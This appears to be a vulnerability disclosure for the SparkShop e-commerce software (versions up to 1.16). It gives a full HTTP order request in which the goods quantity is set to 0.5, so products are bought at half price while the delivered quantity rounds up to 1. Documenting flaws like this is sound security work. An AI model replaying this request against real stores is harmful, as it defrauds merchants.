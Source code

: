 ### Vulnerability Introduction

target:https://gitee.com/sparkshop/sparkshop

version: Sparkshop<=1.16

By modifying the quantity of goods in the order, we can achieve half price purchase of goods



### Vulnerability reproduction

First, obtain an order and modify the quantity of goods

```
POST /index/order/createOrder HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 173
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
sec-ch-ua-platform: "Windows"
Origin: 
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: sparkShop=

goods%5B0%5D%5Bgoods_id%5D=3&goods%5B0%5D%5Brule_id%5D=0&goods%5B0%5D%5Bnum%5D=0.5&pay_way=balance&coupon=0&address_id=1&cart_id=&orderType=1&remark=&deliver_type=1&store_id=0
```

Here we have changed the parameters of goods% 5B0% 5D% 5Bnum% 5D to 0.5, which ensures that the quantity of our products after purchase is rounded to 1.

![image-20241009164335987](./assets/image-20241009164335987.png)

As shown in the picture, successfully purchased the product at half price.
